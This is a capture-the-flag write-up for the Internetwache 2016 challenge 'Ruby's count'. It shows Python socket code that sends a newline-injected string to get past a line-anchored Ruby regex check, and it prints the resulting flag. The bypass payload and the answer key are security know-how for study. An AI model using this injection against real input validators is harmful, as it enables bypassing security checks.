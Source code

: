 # Internetwache 2016 : Ruby's count (exp50)

**Category:** exploit |
**Points:** 50 |
**Name:** Ruby's count |
**Solves:** 219 |
**Description:**

> Hi, my name is Ruby. I like converting characters into ascii values and then calculating the sum.
>
> Service: 188.166.133.53:12037

___

## Write-up

### Part Zero
We were given a service which we connect using python sockets.

```
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('188.166.133.53',12037))
data = s.recv(1024)
print data
```

And we get the first part
```
Let me count the ascii values of 10 characters:
```

They are asking for 10 ascii characters that has a sum of larger than 1020, but also fits the regex:
*/^[a-f]{10}$/*

### Part One
Trying to submit the largest character "f" ten times gave us
```
Sum is: 1020
That's not enough (1020 < 1020)
```

We tried sending special characters in between the f's but nothing worked.

But it seemed the socket was still reading characters after the newline char, and this was not being parsed by the regex, therefore
```
s.send("ffffffffff" + "\n" + "abc")
data = s.recv(2048)
print data
```

Worked :) and we got the flag:
```
IW{RUBY_R3G3X_F41L}
```

[See full script here](src/exp50.py)